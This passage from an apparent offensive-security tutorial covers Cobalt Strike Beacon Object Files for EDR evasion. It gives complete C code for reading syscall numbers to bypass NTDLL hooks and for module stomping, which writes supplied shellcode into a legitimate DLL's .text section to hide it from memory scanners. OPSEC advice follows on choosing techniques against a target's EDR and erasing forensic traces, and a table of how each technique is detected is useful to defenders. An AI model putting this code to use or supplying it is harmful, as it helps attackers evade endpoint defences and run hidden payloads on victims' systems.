Every Windows API call that does real work eventually transitions to kernel mode through a syscall instruction. NTDLL functions like `NtAllocateVirtualMemory` are thin stubs that load a syscall number into the `eax` register and execute `syscall`.

If an EDR hooks `NtAllocateVirtualMemory` in NTDLL, it intercepts the call before the syscall happens. If we issue the syscall ourselves - bypassing NTDLL entirely - the hook never sees it.

Syscall numbers are not fixed. They change between Windows versions and sometimes between patch levels. The most reliable approach is to read them dynamically from NTDLL at runtime by inspecting the function stub bytes:

```c
#include <windows.h>
#include "beacon.h"
#include "bofdefs.h"

DWORD GetSyscallNumber(char *funcName) {
    HMODULE hNtdll = KERNEL32$GetModuleHandleA("ntdll.dll");
    if (!hNtdll) return 0;

    BYTE *func = (BYTE*)KERNEL32$GetProcAddress(hNtdll, funcName);
    if (!func) return 0;

    if (func[0] == 0x4C && func[1] == 0x8B && func[2] == 0xD1 && func[3] == 0xB8) {
        return *(DWORD*)(func + 4);
    }

    return 0;
}

void go(char *args, int len) {
    char *functions[] = {
        "NtAllocateVirtualMemory",
        "NtWriteVirtualMemory",
        "NtProtectVirtualMemory",
        "NtCreateThreadEx",
        "NtOpenProcess",
        "NtQuerySystemInformation"
    };

    BeaconPrintf(CALLBACK_OUTPUT, "Syscall numbers from current NTDLL:\n\n");

    for (int i = 0; i < 6; i++) {
        DWORD num = GetSyscallNumber(functions[i]);
        if (num) {
            BeaconPrintf(CALLBACK_OUTPUT, "  %-30s 0x%04X\n", functions[i], num);
        } else {
            BeaconPrintf(CALLBACK_OUTPUT, "  %-30s not found or hooked\n", functions[i]);
        }
    }
}
```

The pattern at offset 0 - `4C 8B D1` (`mov r10, rcx`) followed by `B8` (`mov eax, imm32`) - is the standard x64 syscall stub prologue. The four bytes starting at offset 4 are the syscall number in little-endian format.

When an EDR hooks a function by replacing those first bytes with a jump to its own code, `GetSyscallNumber` will return 0 for that function, which is a signal that the stub is hooked. In a real implementation you would then fall back to reading the number from a clean copy of ntdll on disk.

---

### Module Stomping

When Beacon allocates memory to run code, that memory shows up in forensic analysis as a private `MEM_PRIVATE` region with `PAGE_EXECUTE_READWRITE` protection that is not backed by any file on disk. This is a reliable indicator of injected or dynamically generated code.

Module stomping hides code inside the `.text` section of an already-loaded legitimate DLL. Because the memory is backed by that DLL's file on disk, it appears legitimate to memory scanners that check backing files.

```c
#include <windows.h>
#include <psapi.h>
#include "beacon.h"
#include "bofdefs.h"

DECLSPEC_IMPORT BOOL WINAPI PSAPI$EnumProcessModules(HANDLE, HMODULE*, DWORD, LPDWORD);
DECLSPEC_IMPORT DWORD WINAPI PSAPI$GetModuleFileNameExA(HANDLE, HMODULE, LPSTR, DWORD);

HMODULE FindStompableModule(SIZE_T requiredSize) {
    HANDLE hProcess = KERNEL32$GetCurrentProcess();
    HMODULE modules[256];
    DWORD needed;

    if (!PSAPI$EnumProcessModules(hProcess, modules, sizeof(modules), &needed))
        return NULL;

    DWORD count = needed / sizeof(HMODULE);

    for (DWORD i = 0; i < count; i++) {
        char modName[MAX_PATH];
        PSAPI$GetModuleFileNameExA(hProcess, modules[i], modName, MAX_PATH);

        if (MSVCRT$strstr(modName, "ntdll") ||
            MSVCRT$strstr(modName, "kernel32") ||
            MSVCRT$strstr(modName, "kernelbase")) {
            continue;
        }

        PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)modules[i];
        PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((BYTE*)modules[i] + dos->e_lfanew);
        PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt);

        for (WORD j = 0; j < nt->FileHeader.NumberOfSections; j++) {
            if (MSVCRT$strcmp((char*)section[j].Name, ".text") == 0) {
                if (section[j].Misc.VirtualSize >= requiredSize) {
                    BeaconPrintf(CALLBACK_OUTPUT, "Target: %s (.text = 0x%X bytes)\n",
                        modName, section[j].Misc.VirtualSize);
                    return modules[i];
                }
            }
        }
    }

    return NULL;
}

void go(char *args, int len) {
    datap parser;
    char *shellcode;
    int shellcodeLen;

    BeaconDataParse(&parser, args, len);
    shellcode = BeaconDataExtract(&parser, &shellcodeLen);

    if (shellcodeLen == 0) {
        BeaconPrintf(CALLBACK_ERROR, "No shellcode provided\n");
        return;
    }

    HMODULE targetMod = FindStompableModule(shellcodeLen);
    if (!targetMod) {
        BeaconPrintf(CALLBACK_ERROR, "No suitable module found\n");
        return;
    }

    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)targetMod;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((BYTE*)targetMod + dos->e_lfanew);
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt);

    LPVOID textAddr = NULL;
    for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (MSVCRT$strcmp((char*)section[i].Name, ".text") == 0) {
            textAddr = (LPVOID)((BYTE*)targetMod + section[i].VirtualAddress);
            break;
        }
    }

    if (!textAddr) {
        BeaconPrintf(CALLBACK_ERROR, "Could not find .text section\n");
        return;
    }

    DWORD oldProtect;
    if (!KERNEL32$VirtualProtect(textAddr, shellcodeLen,
            PAGE_EXECUTE_READWRITE, &oldProtect)) {
        BeaconPrintf(CALLBACK_ERROR, "VirtualProtect failed: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    MSVCRT$memcpy(textAddr, shellcode, shellcodeLen);
    KERNEL32$VirtualProtect(textAddr, shellcodeLen, PAGE_EXECUTE_READ, &oldProtect);

    BeaconPrintf(CALLBACK_OUTPUT, "Shellcode written into module .text at 0x%p\n", textAddr);
}
```

The caveat with module stomping is that security tools that verify section hashes against the file on disk will detect the mismatch. It is effective against tools that only check memory type and backing file existence, not against those that validate content integrity.

---

## Detection and OPSEC Reality

Every technique in this guide has detection vectors. Understanding them makes you a better operator because it tells you when to use each approach and what the cost is.

| Technique | Primary Detection | Risk Level |
| --- | --- | --- |
| AMSI patch | Integrity monitoring, patch byte scanning | High |
| ETW patch | ETW provider health monitoring | Medium |
| NTDLL unhook | Section hash comparison, memory scanning | Medium |
| Direct syscalls | Kernel ETW, call stack analysis | Lower |
| Module stomping | Section hash verification | Lower |

A few practical OPSEC notes:

- Every bypass leaves some artifact. Use only what the operation requires.
- Syscall-based approaches are generally lower risk than patching, but are harder to write and version-dependent.
- Test in an isolated environment against the same security stack as your target before the operation.
- Know what your target's EDR actually monitors. Bypassing AMSI against a target that does not use script-based defenses accomplishes nothing except adding noise.
- Clean up when possible. Restoring patched functions before exiting reduces post-operation forensic findings.

---

## Where to Go From Here

This guide covers the core BOF development workflow from first principles to advanced evasion. The techniques in Part 5 are starting points, not final solutions - the offensive and defensive tooling around all of them continues to evolve.

The BOF community has produced a large collection of open-source tools worth studying: TrustedSec's BOF collection, nanodump for LSASS dumping, CS-Situational-Awareness-BOF for recon primitives, and many others. Reading production-quality BOF source code is the fastest way to develop the intuition for what works and what does not.

The constraint that makes BOFs interesting - running inside Beacon's process, with no new processes and no injection - is also what makes them genuinely difficult to detect when implemented well. That tension is what drives the research on both sides.
